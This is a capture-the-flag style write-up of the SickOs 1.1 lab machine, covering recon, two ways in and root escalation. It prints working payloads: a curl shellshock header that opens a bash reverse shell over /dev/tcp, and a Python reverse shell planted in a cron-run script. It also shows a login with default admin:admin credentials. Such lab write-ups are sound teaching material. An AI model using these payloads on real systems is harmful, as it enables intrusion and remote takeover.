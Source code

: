 ```yaml
---
title: "SickOs 1.1"
layout: post
date: 2017-11-04
image: /assets/images/markdown.jpg
headerImage: false
tag:
- Writeup
- Pentest
category: blog
author: marioibarra
description:  SickOs 1.1 Writeup
---
```


# SickOs 1.1 Writeup



## Recon


A quick nmap scan revealed tcp ports 22 and 3128 open.      

![image](/assets/images/sickos1.1/nmap.png)


Port 3128 is a squid HTTP proxy so I ran a nitko scan on it and adjusted my Firefox proxy settings to access the site.

![image](/assets/images/sickos1.1/nikto2.png)

According to the scan the site looks like its vulnerable to shellshock.  I checked the /cgi-bin/status directory to make sure its available.



## Exploitation Method 1

![image](/assets/images/sickos1.1/cgi-bin.png)

I exploited the shellshock vulnerability with curl

```bash
curl -x http://10.10.10.11:3128 -H "User-Agent: () { ignored;}; /bin/bash -i >& /dev/tcp/10.10.10.10/1337 0>&1" http://10.10.10.11/cgi-bin/status
```

I had a netcat listener open to receive the shell.

![image](/assets/images/sickos1.1/shell.png)



## Exploitation Method 2

I located an wolfcms admin console and was able to login with the default credentials **admin:admin**.

![image](/assets/images/sickos1.1/admin.png)


![image](/assets/images/sickos1.1/wolf.png)

I was able to upload a php reverse shell on the web app file manager and I used a metasploit handler to receive the shell.

![image](/assets/images/sickos1.1/4444shell.png)


![image](/assets/images/sickos1.1/meterpreter.png)



## Privilege Escalation

I went with the 1st exploitation method since it was easier than the second.
With that method, I had a limited shell, so I spawned a TTY shell using python.

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

After looking at the cronjobs in the system, there was one that caught my eye.

![image](/assets/images/sickos1.1/cronjob.png)

This cronjob runs the connect.py script that is in **/var/www* every minute.  Luckily, I had read/write permissions for connect.py since the user owns the file.

I edited connect.py to include a reverse shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

With a NC listener open to the port I specified, a root shell opened within a minute after editing the connect.py script.

![image](/assets/images/sickos1.1/root.png)
